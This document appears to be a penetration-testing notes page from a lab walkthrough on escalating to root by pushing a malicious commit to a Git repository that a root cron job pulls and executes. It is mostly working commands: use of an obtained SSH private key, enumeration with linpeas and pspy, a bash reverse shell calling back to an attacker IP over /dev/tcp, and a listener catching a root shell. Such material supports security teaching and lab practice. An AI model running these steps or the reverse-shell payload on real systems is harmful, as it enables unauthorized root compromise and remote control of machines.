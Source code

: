 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Git Script Injection

This privilege escalation technique exploits a **cron-scheduled script maintained in a Git repository**. Instead of modifying the script file directly, which may not be writable or may be tracked centrally, the attacker leverages Git operations to inject malicious code. If a cronjob executes a script from a local Git clone, and that clone regularly pulls from a bare Git repository, it is possible to modify the script via Git (clone → commit → push). Once the root-owned clone fetches and executes the updated content, the payload runs with elevated privileges. This method is particularly effective in DevOps-style environments where Git is used as part of automation pipelines.

{% code overflow="wrap" %}
```bash
[bob@server home]$ cat git/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3B...<SNIP>...aXQ=
-----END OPENSSH PRIVATE KEY-----

[bob@server tmp]$ ./linpeas.sh
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 66 Jan 15  2021 /etc/crontab.bak

[bob@server tmp]$ cat /etc/crontab.bak
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```
{% endcode %}

The objective is to gain `root` access by injecting a reverse shell into a script (`backups.sh`) that is executed by `root` on a schedule. Since this script is maintained in a Git repository, the attack leverages Git operations to propagate the malicious change. The script located at `/root/git-server/backups.sh` is executed by `root` every three minutes, while `/root/pull.sh` runs every two minutes.

```bash
[bob@server tmp]$ ./pspy64
2025/08/04 16:02:01 CMD: UID=0     PID=17170  | /bin/sh -c /root/pull.sh
2025/08/04 16:02:01 CMD: UID=0     PID=17171  | git pull
2025/08/04 16:03:01 CMD: UID=0     PID=17191  | /bin/sh -c /root/git-server/backups.sh
```

The output from `pspy` shows that `/root/pull.sh` is simply running `git pull` every two minutes inside `/root/git-server/`, and then every three minutes the script `backups.sh` in that same directory is executed by `root`. This establishes a Git-based automation flow:

* `/git-server/` is a **bare Git repository**. A bare repository contains only Git metadata (commits, trees, objects) and **does not have a working copy of files like scripts or code**. It serves as the equivalent of a remote Git server (e.g., GitHub) and is not directly editable.
* `/root/git-server/` is a **Git clone of the bare repository — a working copy** where files like `backups.sh` exist on disk. The `root` user regularly pulls updates into this working copy via cron.

Therefore, any updates pushed to the bare repository at `/git-server/` will be fetched into `/root/git-server/` by the `root` cron job. Since `/git-server/` cannot be edited directly (being bare), a writable clone must be created. This is done from the user-writable `/tmp` directory:

```bash
[bob@server tmp]$ git clone file:///git-server
[bob@server tmp]$ cd git-server/
```

After cloning, the repository contains the current version of `backups.sh`, which is just a placeholder:

```bash
[bob@server git-server]$ cat backups.sh
#!/bin/bash
#
#
# # Placeholder
#
```

Once it's confirmed that `/git-server/` is a bare Git repository used by the `root` cron job, the attacker must interact with it from their own machine. Since direct write access to `/git-server/` is not available externally, a remote Git clone is performed over SSH. The Git server is listening on a non-default port (`43022`), and a private SSH key (`id_rsa`) has been obtained during enumeration. Using this key, the repository is cloned remotely from the attacker's machine:

```bash
# Clone remote Git server using Git SSH key
$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@server:/git-server
```

This creates a working copy on the attacker’s machine, where real files like `backups.sh` can be edited. Git user identity is configured:

```bash
# Configure Git identity
$ git config --global user.name "x7331"
$ git config --global user.email "x7331@kali.(none)"
```

To escalate privileges, the `backups.sh` file is modified to include a reverse shell payload. The payload connects back to the attacker's IP over TCP:

```bash
# Add reverse shell payload to the script
$ nano backups.sh
$ cat backups.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.170/12445 0>&1

# Assign execute permissions to the file
$ chmod +x backups.sh
```

Changes are staged and committed:

```bash
# Stage and commit the changes
$ git add backups.sh
$ git commit -m "reverse_shell"
```

The repository is pushed back using:

```bash
# Push the updated code
$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

At this point, the updated `backups.sh` containing the reverse shell has been committed and successfully pushed to `/git-server/`. Within two minutes, the root cron job running `pull.sh` will pull this change into `/root/git-server/`. Within three minutes, the root cron job running `backups.sh` will execute it.

```bash
# Start listener to catch reverse shell
$ sudo penelope -p 12445

[root@server ~]# id
uid=0(root) gid=0(root) groups=0(root)
```

{% hint style="warning" %}
Although the user `bob` can clone the repository, inspect scripts, and prepare modifications locally, pushing changes to `/git-server` is restricted. The bare repository is owned by the `git` user, and only authenticated SSH access as `git` allows write operations.
{% endhint %}
